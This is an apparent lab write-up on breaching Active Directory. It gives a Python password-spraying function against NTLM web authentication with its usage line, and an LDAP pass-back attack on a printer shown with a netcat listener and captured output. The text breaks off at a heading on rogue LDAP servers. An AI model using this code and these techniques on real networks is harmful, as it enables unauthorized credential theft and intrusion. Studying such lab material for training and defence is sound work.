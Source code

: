 # Breaching Active Directory

### NTLM and NetNTLM

NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.

All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.

application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller.

<figure><img src="../../../.gitbook/assets/image (382).png" alt=""><figcaption></figcaption></figure>

### Brute-force Login Attacks

Since most AD environments have account lockout configured, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired.

#### Example

```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

the input must be:&#x20;

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

<figure><img src="../../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>

### LDAP

with LDAP authentication, the application directly verifies the user's credentials. The application has a pair of AD credentials that it can use first to query LDAP and then verify the AD user's credentials.

<figure><img src="../../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials. These credentials are often stored in plain text in configuration files since the security model relies on keeping the location and storage configuration file secure rather than its contents.

### LDAP Pass-back Attacks

Let's attack a network printer in this network where the administration website does not even require credentials

<figure><img src="../../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

So we have the username, but not the password. However, when we press test settings, we can see that an authentication request is made to the domain controller to test the LDAP credentials. Let's try to exploit this to get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command:

```
nc -lvp 389
```

and then we put our IP in the server input and push ->

```
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext.

### Hosting a Rogue LDAP Server
